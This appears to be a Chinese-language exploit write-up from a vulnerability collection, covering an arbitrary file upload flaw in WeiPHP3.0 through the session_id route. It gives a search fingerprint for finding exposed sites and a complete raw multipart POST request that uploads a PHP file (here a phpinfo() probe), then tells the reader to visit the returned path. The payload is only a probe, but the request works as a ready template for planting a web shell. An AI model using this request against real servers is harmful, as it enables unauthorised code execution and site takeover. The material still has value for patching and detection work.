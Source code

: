 # WeiPHP3.0 session_id 任意文件上传漏洞

## 漏洞描述

WeiPHP3.0 session_id 存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

```
WeiPHP3.0
```

## 网络测绘

```
app="weiphp"
```

## 漏洞复现

登陆页面标识

![img](./images/202202162318569.png)

发送请求包上传文件

```php
POST /index.php?s=%2FHome%2FFile%2Fupload%2Fsession_id%2Fscevs8hub3m5ogla05a421hb42.html HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 831
Content-Type: multipart/form-data; boundary=------------------------e37a54d7d5380c9f
Accept-Encoding: gzip

--------------------------e37a54d7d5380c9f
Content-Disposition: form-data; name="download"; filename="882176.php"
Content-Type: application/octet-stream

<?php
phpinfo();

--------------------------e37a54d7d5380c9f--
```

![img](./images/202202162318518.png)

获取目录后访问回显的 path

![img](./images/202202162318407.png)